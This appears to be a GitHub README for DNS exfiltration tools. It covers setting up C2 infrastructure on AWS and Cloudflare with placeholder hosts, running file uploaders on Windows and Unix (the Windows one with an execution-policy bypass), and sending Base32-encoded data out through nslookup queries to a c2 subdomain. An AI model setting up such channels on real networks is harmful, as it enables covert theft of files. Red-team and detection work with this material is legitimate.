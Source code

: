 
# DNS Exfiltration Tools

**Disclaimer:**  
These tools are intended solely for **security testing purposes**. I am not responsible for any misuse of these tools. **Use responsibly**.

---

## Table of Contents
1. [Infrastructure Setup](#infrastructure-setup)
2. [Tool Usage](#tool-usage)
    - [dns_file_receiver.py (Unix - Server)](#dns-file-receiver-unix---server)
    - [dns_file_uploader.ps1 (Windows - Client)](#dns-file-uploader-windows---client)
    - [dns_file_uploader.py (Unix - Client)](#dns-file-uploader-unix---client)
    - [ns_dns_server.py (Unix - Server)](#ns-dns-server-unix---server)
3. [Base32 Payload Instructions for ns_dns_server.py (Client)](#base32-payload-instructions-for-ns_dns_serverpy-client)

---

## Infrastructure Setup

**Prerequisites:**
- You must own a domain and have an internet-connected server.
- Example setup uses AWS and Cloudflare.

**Server Information:**
- AWS VM IP: `123.123.123.123`
- Cloudflare Domain: `fakedomain.com`

**Cloudflare DNS Configuration:**
1. Create an NS record:  
   **Name:** `c2.fakedomain.com`  
2. Create an A record for C2:  
   **Name:** `c2`  
   **IPv4 address:** `123.123.123.123`  
3. Create an A record for `example.com`:  
   **IPv4 address:** `123.123.123.123`

---

## Tool Usage

### dns_file_receiver.py (Unix - Server)

1. Edit the `domain` parameter in the script to:  
   ```bash
   c2.fakedomain.com
   ```
2. Adjust the `SOCKET_TIMEOUT` to an appropriate duration in seconds. This determines how long the script will stay active, waiting for client connections.

3. Run the script:  
   ```bash
   sudo python3 dns_file_receiver.py
   ```

### dns_file_uploader.ps1 (Windows - Client)

1. Update the `domain` parameter in the script to:  
   ```bash
   c2.fakedomain.com
   ```
2. Run the script with PowerShell:  
   ```bash
   powershell -ExecutionPolicy Bypass -File .\dns_file_uploader.ps1
   ```
3. Follow the prompts:
    - **File path:** (quotes can be used)
    - **Domain OR IP:** Either the AWS server IP (`123.123.123.123`) or domain name (`fakedomain.com`)
    - **Random delay:** Set a random delay in seconds

### dns_file_uploader.py (Unix - Client)

1. Update the `DNS_SERVER` parameter to:  
   - AWS server IP (`123.123.123.123`) or domain name (`fakedomain.com`)

2. Update the `domain` parameter in the script to:  
   ```bash
   c2.fakedomain.com
   ```

3. Run the script:  
   ```bash
   sudo python3 dns_file_uploader.py
   ```
4. Follow the prompts:
    - **File path:** (quotes can be used)
    - **Random delay:** Set a random delay in seconds

### ns_dns_server.py (Unix - Server)

1. Update the `DOMAIN` parameter in the script to:  
   ```bash
   c2.fakedomain.com
   ```
2. Optionally, update the `fake_ip` parameter if needed.

3. Run the script:  
   ```bash
   sudo python3 ns-dns_server.py
   ```

---

## Base32 Payload Instructions for ns_dns_server.py (Client)
IMPORTANT NOTE: Maximum Length of a DNS Label: Each label (subdomain) in a DNS name can be up to 63 characters.
                Maximum Length of the Entire Domain Name: The full domain name (including all labels and dots) can be a maximum of 253 characters.
                

1. Use [CyberChef](https://gchq.github.io/CyberChef/#recipe=To_Base32('A-Z2-7%3D')) to create a Base32 payload.
   
2. Once the payload is generated, use `nslookup` to test the server:  
   ```bash
   nslookup <payload>.c2.fakedomain.com
   ```

**Example:**

- **Input:**  
   ```
   TESTING TESTING 123
   ```
- **Output:**  
   ```
   KRCVGVCJJZDSAVCFKNKESTSHEAYTEMY=
   ```

- **Command:**  
   ```bash
   nslookup KRCVGVCJJZDSAVCFKNKESTSHEAYTEMY.c2.fakedomain.com
   ```
  Extra Note: The domain string KRCVGVCJJZDSAVCFKNKESTSHEAYTEMY.c2.fakedomain.com contains 49 characters. Also the '=' is padded by the script when it recieves it.
---

**Note:** All other tools not documented here are works in progress.
